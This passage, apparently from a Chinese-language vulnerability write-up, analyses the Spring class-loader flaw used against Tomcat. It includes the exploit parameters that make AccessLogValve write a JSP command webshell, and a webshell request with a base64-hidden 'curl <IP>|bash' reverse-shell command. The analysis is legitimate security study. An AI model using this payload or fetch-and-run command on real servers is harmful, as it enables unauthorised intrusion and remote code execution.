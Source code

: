 然后访问

```
http://192.168.121.132:8080/tomcatwar.jsp?pwd=j&cmd=bash%20-c%20%7Becho%2CY3VybCA0Ny45My4yNDguMjIxfGJhc2g%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D
```

收到了弹过来的shell

![image-20220421175519631](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220421175519631.png)

发送的时候都url编码一下

# 漏洞分析

来看一下exp里面的一些参数

- `class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i`
- `class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp`
- `class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT`

- `class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar`

- `class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=`

这些参数都是上面日志的一些参数，pattern是内容，可以看到现在是一个jsp的木马，suffix是文件后缀，directory是文件输出目录，prefix是文件输出前缀，fileDateFormat是文件生产日期（加在前缀后面的）

## pattern参数

前面说到过，因为没有使用stopClass的原因，每个javabean类还可以获取到一个Class类

和上面一样，在这里对每一个绑定的参数迭代解析

![image-20220428124908695](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220428124908695.png)

最后迭代完后得到这样一个调用链

```Java
User.getClass()
    java.lang.Class.getModule()
        java.lang.Module.getClassLoader()
            org.apache.catalina.loader.ParallelWebappClassLoader.getResources()
                org.apache.catalina.webresources.StandardRoot.getContext()
                    org.apache.catalina.core.StandardContext.getParent()
                        org.apache.catalina.core.StandardHost.getPipeline()
                            org.apache.catalina.core.StandardPipeline.getFirst()
                                org.apache.catalina.valves.AccessLogValve.setPattern()
```

最将AccessLogValve的pattern参数设置为对应的jsp木马的值

其他几个参数在前面也说过，也就是tomcat的access_log对应的参数，最后输出了应该JSP Webshell到Tomcat的web目录下

